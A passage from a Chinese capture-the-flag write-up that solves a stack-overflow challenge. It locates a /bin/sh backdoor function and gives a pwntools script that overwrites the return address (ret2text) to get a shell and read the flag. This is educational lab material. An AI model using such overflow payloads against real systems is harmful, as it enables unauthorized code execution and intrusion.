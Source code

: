 shift-f12 查看字符串，可以看到 `/bin/sh` ，由此可以找到调用这个字符串的后门函数：

![image-20241216190848014](BestiCTF S1 Week14.assets/image-20241216190848014.png)

我们可以通过覆盖 vuln 函数的返回地址，使其跳转到 backdoor 函数，运行后门，代码如下：

```python
#!/usr/bin/python3
# -*- encoding: utf-8 -*-

from pwn import *

# 设置日志级别为调试（如果需要调试时可以取消注释）
# context.log_level = "debug"

# 连接到远程目标服务器，IP地址为127.0.0.1，端口为9999
p = remote("127.0.0.1", 9999)
# 如果需要在本地调试，可以使用以下代码启动本地进程
# p = process("./pwn-ubuntu_20.04/src/attachment")

# 加载目标ELF文件
elf = ELF("./pwn-ubuntu_20.04/src/attachment")
# 加载libc库文件
_libc = ELF('./pwn-ubuntu_20.04/src/libc.so.6')

# 目标地址，通常是我们希望跳转到的函数或指令地址
target_address = 0x40115A

# 栈的长度，0x100是缓冲区长度，0x8是栈帧指针的长度
stack_len = 0x100 + 0x8

# 构造payload，填充0x100个字节的0，再加上目标地址
payload = b'\x00' * stack_len + p64(target_address)

# 发送payload到目标服务器
p.sendline(payload)

# 进入交互模式，保持与目标服务器的连接
p.interactive()
```

运行即可得到 shell，执行 `cat flag` 得到 flag：

![image-20241216191213681](BestiCTF S1 Week14.assets/image-20241216191213681.png)

#### 总结

- 栈溢出
	- 基础 ROP
		- ret2text



### [梦开始的时候](https://www.nssctf.cn/team/problem/6239)

